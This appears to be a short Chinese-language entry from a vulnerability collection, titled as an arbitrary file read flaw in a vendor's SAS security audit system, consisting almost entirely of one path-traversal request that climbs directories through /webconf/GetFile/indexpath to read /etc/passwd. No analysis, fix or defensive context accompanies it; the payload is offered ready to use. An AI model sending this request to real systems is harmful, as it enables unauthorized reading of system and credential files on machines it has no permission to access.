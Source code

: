 # 某盟sas安全审计系统任意文件读取漏洞

## 某盟sas安全审计系统任意文件读取漏洞
```
/webconf/GetFile/indexpath=../../../../../../../../../../../../../../etc/passwd
```

